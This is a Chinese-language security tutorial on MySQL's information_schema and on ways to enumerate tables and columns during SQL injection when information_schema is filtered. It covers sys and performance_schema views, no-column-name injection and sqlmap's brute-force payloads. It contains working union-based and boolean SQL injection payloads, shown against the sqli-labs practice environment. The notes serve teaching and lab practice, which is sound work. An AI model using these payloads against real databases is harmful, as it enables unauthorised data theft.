




##  information_schema


在MySQL中，把 information_schema 看作是一个数据库，确切说是**信息数据库**。其中**保存着关于MySQL服务器所维护的所有其他数据库的信息**。如数据库名，数据库的表，表栏的数据类型与访问权 限等。

在INFORMATION_SCHEMA中，有数个只读表。它们实际上是视图，而不是基本表，因此，你将无法看到与之相关的任何文件。

MySQL 5.0 之前的版本是没有 `information_schema` 数据库的。这个数据库是在 MySQL 5.0 版本之后引入的。在 MySQL 5.0 之前，MySQL 使用的是 `mysql` 数据库来存储系统元数据信息。

### information_schema数据库表说明:

| 表名称                                  | 作用                                                         |
| --------------------------------------- | ------------------------------------------------------------ |
| SCHEMATA表                              | 提供了当前mysql实例中所有数据库的信息。是show databases的结果取之此表。 |
| TABLES表                                | 提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息。是show tables from schemaname的结果取之此表。 |
| COLUMNS表                               | 提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表。 |
| STATISTICS表                            | 提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表。 |
| USER_PRIVILEGES（用户权限）表           | 给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表。 |
| SCHEMA_PRIVILEGES（方案权限）表         | 给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。是非标准表。 |
| TABLE_PRIVILEGES（表权限）表            | 给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。是非标准表。 |
| COLUMN_PRIVILEGES（列权限）表           | 给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。是非标准表。 |
| CHARACTER_SETS（字符集）表              | 提供了mysql实例可用字符集的信息。是SHOW CHARACTER SET结果集取之此表。 |
| COLLATIONS表                            | 提供了关于各字符集的对照信息。                               |
| COLLATION_CHARACTER_SET_APPLICABILITY表 | 指明了可用于校对的字符集。这些列等效于SHOW COLLATION的前两个显示字段。 |
| TABLE_CONSTRAINTS表                     | 描述了存在约束的表。以及表的约束类型。                       |
| KEY_COLUMN_USAGE表                      | 描述了具有约束的键列。                                       |
| ROUTINES表                              | 提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。名为“mysql.proc name”的列指明了对应于INFORMATION_SCHEMA.ROUTINES表的mysql.proc表列。 |
| VIEWS表                                 | 给出了关于数据库中的视图的信息。需要有show views权限，否则无法查看视图信息。 |
| TRIGGERS表                              | 提供了关于触发程序的信息。必须有super权限才能查看该表        |

原文链接：https://blog.csdn.net/xianjie0318/article/details/80857568


### other:

查看tables的表结构 `desc tables;`

查看tables有多少条数据`select count(*) from tables;`

> select * from table limit 3, 7; // 返回4-11行
>
> select * from table limit 3,1; // 返回第4行
>
> select * from table limit 3; // 返回前3行


# 绕过 information_schema

**限制条件：**

1. 数据库版本要大于5.7

2. 权限问题：要求权限高，root用户才能够访问


​		由于`performance_schema`过于复杂，所以mysql在5.7版本中新增了`sys schemma`，基础数据来自于`performance_chema`和`information_schema`两个库，本身数据库不存储数据。

```markdown
*注*： 
    这里说一下，现在网络上能搜索到的文章大部分都是利用innoDB引擎绕过对information_schema的过滤，但是mysql默认是关闭InnoDB存储引擎的，所以在本文中不讨论该方法，若想了解可自行搜索，网络上有很多分析文章了。
```


### **sys.schema_auto_increment_columns**

​		该视图的作用简单来说就是用来对表自增ID的监控。

​		开始了解这个视图之前，希望你可以想一下当你利用Mysql设计数据库时，是否会给每个表加一个自增的id（或其他名字）字段呢？如果是，那么我们发现了一个注入中在mysql默认情况下就可以替代information_schema库的方法。

​		如果我们在设计mysql数据库的时候设计一个随着用户增加而自增的字段，例如id，那么在进行sql注入时我们就能找到代替information_schema库的方法，这样说来应该就很容易明白了，schema_auto_increment_columns这个模块的作用就是用来对表自增id的监控。

​		**缺点：无法通过注入获取到没有自增主键的表的数据**

​		以下环境为sqli-labs，可自行测试

```javascript
-1' union select 1,(select group_concat(table_name) from sys.schema_auto_increment_columns where table_schema=database()),3 --+
```


### sys.schema_table_statistics_with_buffer sys.x$schema_table_statistics_with_buffer

​        这个刚好能够补充上面视图的不足，也就是再说，如果我们在设定mysql环境时没有设置自增的字段时，就可以利用该试图来获取信息。

```javascript
?id = -1' union select 1,(select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),3 --+
```

​		查询表的统计信息，其中还包括InnoDB缓冲池统计信息，默认情况下按照增删改查操作的总表I/O延迟时间（执行时间，即也可以理解为是存在最多表I/O争用的表）降序排序，数据来源：

`performance_schema.table_io_waits_summary_by_table`
`sys.x$ps_schema_table_statistics_io`
`sys.x$innodb_buffer_stats_by_table`


> **类似的表还有 mysql.innodb_table_stats、mysql_innodb_table_index都存放有库名和表名**
>
> 这俩表对权限的要求相对较小

> **在mysql系统库也有两个表中包含部分表名**
> innodb_index_stats
> innodb_table_stats

​		上面的方法的确可以获取数据库中表名信息了，但是并没有找到类似于information_schema中COLUMNS的视图，也就是说我们并不能获取数据？

​		接下来看看无列名注入吧。


### 无列名注入

​		利用`join … using(xx)`注列名

​		通过系统关键词`join`可建立两个表之间的内连接。通过对想要查询列名所在的表与其自身内连接，会由于冗余的原因(相同列名存在)，而发生错误。并且报错信息会存在重复的列名，可以使用 USING 表达式声明内连接（INNER JOIN）条件来避免报错

​		当information_schema被WAF后，我们可以在知道了表名后通过无列名注入技巧获取字段值


如下，使用sql语句 `select 1，2，3 union select * from 表名`

```
# schema_auto_increment_columns

?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+
```

```
# schema_table_statistics_with_buffer

?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

```
# 获取第一列的列名

?id=-1' union all select*from (select * from users as a join users b)c--+
```

```
# 获取次列及后续列名

?id=-1' union all select*from (select * from users as a join users b using(id,username))c--+
```


==注意1：==使用子查询的时候，即一个查询嵌套在另一个查询中，内层查询的结果可以作为外层查询的条件，内层查询到的结果需要起一个别名(as)

==注意2：==要查询的列需要用（反引号）来包裹。

```
SELECT`2`FROM (SELECT 1,2,3 UNION SELECT * FROM users)as X
```

如果反引号``被过滤，我们可以采用取别名的方法来查询

```
SELECT a FROM (SELECT 1,2 as a,3 union select * from users)as x
```


**示例：**

`select 1,2,3,4,5 union select * from users;`
无列名注入关键 就是要猜测表里有多少个列，要一一对应上，上面例子是有5个列
1，2，3，4，5 的作用就是对列起别名，替换为后面无列名注入做准备

>  正常查询：


> 无列名查询：


> 接着就可以使用数字来对应列进行查询，如3对应了表里面的pass
>
> ```
> select `3` from (select 1,2,3,4,5 union select * from users)as a;
> ```
>
> 就相当于`select pass from (select 1,2,3,4,5 union select * from users)as a;`
> SQL 中反引号是可以代表数据库名和列名的
> (select 1,2,3,4,5 union select * from users)as a 把括号里的查询数据重命名一张新的表 a，在从中查询



> 当反引号被禁用时，就可以使用起别名的方法来代替
> `select b from (select 1,2, 3 as b ,4,5 union select * from users)as a;`
> 在注入时同时查询多个列
> `select group_concat(b,c) from (select 1,2, 3 as b , 4 as c ,5 union select * from users)as a;`




### sqlmap的处理

sqlmap提供了暴力破解表名的的选项`--common-tables`，当出现以下场景的时候。

1. DBMS（Database Management System，数据库管理系统）是 < 5.0 版本的 MySQL，它们不具备 information_schema。

2. DBMS 是微软的 Access 数据库，并且其中的系统表 MSysObjects 默认设置不可读。

3. 当前会话用户对 DBMS 中存储数据表定义的系统表没有读权限。


就会采用字典中的表名进行暴力破解，表名储存在sqlmap路径\data\txt中


爆破时发送的payload

```
1' AND EXISTS(SELECT 2 FROM security.users) AND 'WKMd'='WKMd
1' AND EXISTS(SELECT 9 FROM security.customer) AND 'hQcB'='hQcB
1' AND EXISTS(SELECT 8 FROM security.`user`) AND 'ckZb'='ckZb
1' AND EXISTS(SELECT 1 FROM security.orders) AND 'WffN'='WffN
1' AND EXISTS(SELECT 3 FROM security.employee) AND 'KfTF'='KfTF
1' AND EXISTS(SELECT 1 FROM security.x_world) AND 'uuGu'='uuGu
1' AND EXISTS(SELECT 8 FROM security.category) AND 'tHIj'='tHIj
1' AND EXISTS(SELECT 8 FROM security.project) AND 'HBCY'='HBCY
1' AND EXISTS(SELECT 7 FROM security.account) AND 'tSOY'='tSOY
1' AND EXISTS(SELECT 4 FROM security.customers) AND 'HlJM'='HlJM
1' AND EXISTS(SELECT 9 FROM security.country) AND 'gEzc'='gEzc
1' AND EXISTS(SELECT 1 FROM security.config) AND 'hQdH'='hQdH
```


官方文档中说，开启了爆破后，sqlmap 仍然可以识别出部分系统数据表。不过从拦截的情况来看好像并没有尝试通过sys中的视图以及mysql库中的系统表来获得数据。


# 其他可用表

**原文：[MYSQL注入中 information_schema 的替代](https://www.cnblogs.com/h0cksr/p/16189749.html)**

**Mysql 版本: 5.7.26**


先罗列一下可用表：

```
sys.io_global_by_file_by_bytes
information_schema.PARTITIONS
information_schema.KEY_COLUMN_USAGE
performance_schema.events_statements_summary_by_digest
performance_schema.file_instances
performance_schema.file_summary_by_instance
performance_schema.file_instances
sys.schema_index_statistics
sys.schema_object_overview
sys.schema_tables_with_full_table_scans
sys.schema_table_statistics
sys.schema_table_statistics_with_buffer
sys.statements_with_errors_or_warnings
sys.statements_with_full_table_scans
sys.statements_with_runtimes_in_95th_percentile
sys.statements_with_sorting
sys.statements_with_temp_tables
sys.statement_analysis
```

## information_schema


`schemata`, `columns` , `tables`这几个表就不必多说了，标准用法

另外发现几个有意思的表`INNODB_FT_DEFAULT_STOPWORD`和`time_zone_transition`

### information_schema.PARTITIONS

视图有全部的库名表名

### information_schema.KEY_COLUMN_USAGE

视图有全部的库名表名和列名


## performance_schema


### performance_schema.events_statements_summary_by_digest


有历史查询记录

### performance_schema.file_instances

有全部表的存放文件，也相当于全部库名了表名

### performance_schema.file_summary_by_instance

### performance_schema.file_instances

performance_schema.file_summary_by_instance 和 performance_schema.file_instances 有全部表的存放文件，相当于全部库名表名


## sys


这里面很多都是基于其他表的视图，有很多视图用于分析执行语句所以有好几个视图可以用于查看当前的查询语句方便知道查询的关键信息。

### sys.io_global_by_file_by_bytes

通过 file 字段得到库名表名，而且很齐全


### sys.schema_index_statistics

视图有部分表名字段名


### sys.schema_object_overview

有全部库名和库里面全部表的字段数个数


### sys.schema_tables_with_full_table_scans

有部分我们库名


### sys.schema_table_statistics

### sys.schema_table_statistics_with_buffer

sys.schema_table_statistics 和 sys.schema_table_statistics_with_buffer 有全部自建表的库名表名


### sys.statements_with_errors_or_warnings

有全部执行出错的命令语句同时有与该语句相关的数据库


### sys.statements_with_full_table_scans

有扫描整个表的执行语句, 同时有相关的数据库名


### sys.statements_with_runtimes_in_95th_percentile

有部分查询语句, 但是满足什么条件才回到这里我也不知道, 刚刚执行的有特征的测试语句在这里我只找到了一条

### sys.statements_with_sorting

### sys.statements_with_temp_tables

### sys.statement_analysis

sys.statements_with_sorting 和 sys.statements_with_temp_tables 以及 sys.statement_analysis 这三个视图中有很多查询语句记录但是在每个视图中我都没有找到我执行的测试语句, 不知道需要满足什么条件才回到这里, 不过也还是记录一下吧

**在 sys.io_global_by_file_by_bytes 和 sys.io_global_by_file_by_latency 能找到全部的库名和表名**


## Tips

我这里使用的是 Mysql5.7.26 版本的，但是很多环境用的都是 8.X 版本的所以这个就只当一个参考，在 8.X 版本中肯定有一些变化，但是在这里我就不去找了，感兴趣的小伙伴可以自己去找一下 8.X 的。
